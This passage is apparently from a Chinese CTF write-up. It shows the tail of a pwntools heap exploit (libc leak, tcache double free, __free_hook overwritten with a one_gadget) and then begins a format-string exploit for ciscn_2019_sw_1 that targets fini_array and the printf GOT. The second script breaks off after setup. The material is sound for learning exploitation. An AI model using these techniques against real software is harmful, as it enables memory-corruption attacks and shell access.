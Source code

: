 ```python
show(0)


#------count
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))
libc_base = leak_addr -0x3ebca0
free_hook = libc_base + libc.sym['__free_hook']
add(0x60,'getshell')#2 and 0 tcache double free . u can see the heaparry to setup your chunk
free(0)
free(2)
add(0x60,p64(free_hook))
add(0x60,p64(free_hook))
#-----getshell
onegadget = libc_base + 0x4f432#0x4f432 #0x4f322
log.info("onegadget:"+hex(onegadget))
log.info("free_hook"+hex(free_hook))
add(0x60,p64(onegadget))
free(0)

p.interactive()
```

## 2.ciscn_2019_sw_1（32位格式化字符串修改got）

这里不能自动改是因为只有一次输入机会，我们需要手动更改

main



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format[68]; // [esp+0h] [ebp-48h] BYREF

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Welcome to my ctf! What's your name?");
  __isoc99_scanf("%64s", format);
  printf("Hello ");
  printf(format);
  return 0;
}
```

这里给了system函数，我们需要改fini_array为main，fini_array是在程序结束的时候调用的我们更改他为main就可以乱玩了，循环使用main

直接上exp

```python
'''

system().plt = 0x080483D0
fini_array = 0x0804979C
printf.got = 0x0804989C
main() = 0x08048534

'''
from pwn import *
context.log_level = "debug"
r=process('ciscn_2019_sw_1')
#r = remote("node4.buuoj.cn",26628)
elf = ELF("./ciscn_2019_sw_1")

fini_array = 0x0804979C
```